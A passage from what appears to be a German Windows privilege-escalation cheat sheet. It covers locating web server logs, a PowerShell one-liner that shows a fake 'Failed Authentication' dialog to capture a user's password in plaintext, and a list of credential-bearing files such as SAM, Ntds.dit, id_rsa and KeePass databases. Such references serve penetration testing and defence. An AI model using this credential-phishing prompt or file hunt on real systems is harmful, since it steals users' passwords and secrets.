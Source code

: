 ```csharp
}
```
### Protokolle
```bash
# IIS
C:\inetpub\logs\LogFiles\*

#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```
### Nach Anmeldeinformationen fragen

Sie können immer **den Benutzer bitten, seine Anmeldeinformationen oder sogar die Anmeldeinformationen eines anderen Benutzers einzugeben**, wenn Sie denken, dass er sie wissen könnte (beachten Sie, dass **den** Client direkt nach den **Anmeldeinformationen** zu **fragen** wirklich **riskant** ist):
```bash
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

#Get plaintext
$cred.GetNetworkCredential() | fl
```
### **Mögliche Dateinamen mit Anmeldeinformationen**

Bekannte Dateien, die vor einiger Zeit **Passwörter** im **Klartext** oder **Base64** enthielten
```bash
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history
vnc.ini, ultravnc.ini, *vnc*
web.config
php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)
SiteList.xml #McAfee
ConsoleHost_history.txt #PS-History
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
```